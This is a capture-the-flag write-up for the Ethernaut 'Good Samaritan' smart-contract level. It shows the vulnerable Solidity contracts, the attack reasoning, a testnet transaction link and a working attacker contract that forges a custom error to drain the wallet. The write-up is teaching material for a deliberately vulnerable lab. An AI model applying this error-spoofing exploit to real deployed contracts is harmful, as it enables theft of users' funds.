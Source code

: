 ```yaml
---
title: "Good Samaritan "
tags: ["Custom Error"]
reference: https://ethernaut.openzeppelin.com/level/27
---
```


# Description

This instance represents a Good Samaritan that is wealthy and ready to donate some coins to anyone requesting it.

Would you be able to drain all the balance from his Wallet?

Things that might help:

- Solidity Custom Errors

```sol
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

import "openzeppelin-contracts-08/utils/Address.sol";

contract GoodSamaritan {
    Wallet public wallet;
    Coin public coin;

    constructor() {
        wallet = new Wallet();
        coin = new Coin(address(wallet));

        wallet.setCoin(coin);
    }

    function requestDonation() external returns (bool enoughBalance) {
        // donate 10 coins to requester
        try wallet.donate10(msg.sender) {
            return true;
        } catch (bytes memory err) {
            if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
                // send the coins left
                wallet.transferRemainder(msg.sender);
                return false;
            }
        }
    }
}

contract Coin {
    using Address for address;

    mapping(address => uint256) public balances;

    error InsufficientBalance(uint256 current, uint256 required);

    constructor(address wallet_) {
        // one million coins for Good Samaritan initially
        balances[wallet_] = 10 ** 6;
    }

    function transfer(address dest_, uint256 amount_) external {
        uint256 currentBalance = balances[msg.sender];

        // transfer only occurs if balance is enough
        if (amount_ <= currentBalance) {
            balances[msg.sender] -= amount_;
            balances[dest_] += amount_;

            if (dest_.isContract()) {
                // notify contract
                INotifyable(dest_).notify(amount_);
            }
        } else {
            revert InsufficientBalance(currentBalance, amount_);
        }
    }
}

contract Wallet {
    // The owner of the wallet instance
    address public owner;

    Coin public coin;

    error OnlyOwner();
    error NotEnoughBalance();

    modifier onlyOwner() {
        if (msg.sender != owner) {
            revert OnlyOwner();
        }
        _;
    }

    constructor() {
        owner = msg.sender;
    }

    function donate10(address dest_) external onlyOwner {
        // check balance left
        if (coin.balances(address(this)) < 10) {
            revert NotEnoughBalance();
        } else {
            // donate 10 coins
            coin.transfer(dest_, 10);
        }
    }

    function transferRemainder(address dest_) external onlyOwner {
        // transfer balance left
        coin.transfer(dest_, coin.balances(address(this)));
    }

    function setCoin(Coin coin_) external onlyOwner {
        coin = coin_;
    }
}

interface INotifyable {
    function notify(uint256 amount) external;
}
```

# Solution

## Attack Idea

1. The Coin contract's requestDonation will call `wallet.transferRemainder(msg.sender)` when the call of `wallet.donate10(msg.sender)` throw the `NotEnoughBalance` error.

2. In normal case, the `NotEnoughBalance` error should throw if and if only `coin.balances(address(this)) < 10`

3. But the donate process involve the call of `coin.transfer(address dest_, uint256 amount_)` function and this function will call the `notify` function of the destination contract.

4. If `notify` function throw `NotEnoughBalance` error, it will be catched by the caller (or caller of the caller). 

## Executed Transactions

https://sepolia.etherscan.io/tx/0x1eb340492f2cf23c1c2b9d16a68710b1935d46092fb3335a0c91087857075cb9/advanced#internal

![](assets/lv_27_transactions.png)

## Code

```sol
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

error NotEnoughBalance();

interface IGoodSamaritan {
    function requestDonation() external returns (bool enoughBalance);
}

contract FakeNotEnoughBalance {
    address samaritan;

    function pwn(address _samaritan) external {
        samaritan = _samaritan;
        IGoodSamaritan(samaritan).requestDonation();
    }

    function notify(uint256 amount) external pure {
        if (amount == 10) {
            revert NotEnoughBalance();
        }
    }
}
```
